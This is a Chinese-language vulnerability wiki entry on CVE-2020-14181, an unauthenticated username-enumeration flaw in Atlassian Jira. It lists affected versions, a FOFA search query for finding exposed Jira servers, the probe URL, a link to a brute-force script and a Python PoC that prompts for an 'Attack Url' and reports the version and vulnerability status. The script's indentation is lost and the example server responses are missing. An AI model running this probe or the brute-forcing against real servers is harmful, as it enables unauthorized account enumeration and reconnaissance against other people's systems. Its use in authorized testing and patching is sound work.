

Atlassian Jira ViewUserHover.jspa 用户信息泄露漏洞 CVE-2020- 14181¶
漏洞描述¶
Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。
漏洞影响¶
Atlassian Jira < 7.13.6
Atlassian Jira 8.0.0 - 8.5.7
Atlassian Jira 8.6.0 - 8.12.0
网络测绘¶
app="Jira"
漏洞复现¶
打开主界面，注意标识中的 Jira版本是否在影响中

使用POC对用户名是否存在进行验证
/secure/ViewUserHover.jspa?username=admin
用户名如果不存在会返回
存在的用户名会返回
不存在漏洞会返回
漏洞POC¶
POC只用于探测是否存在漏洞
爆破可使用: https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34mVersion: Atlassian Jira < 7.13.6 \033[0m')
print('+ \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7 \033[0m')
print('+ \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
if "peiqipeiqipeiqi" in response.text:
print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
else:
print("\033[31m[x] 目标不存在漏洞 \033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请求失败 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)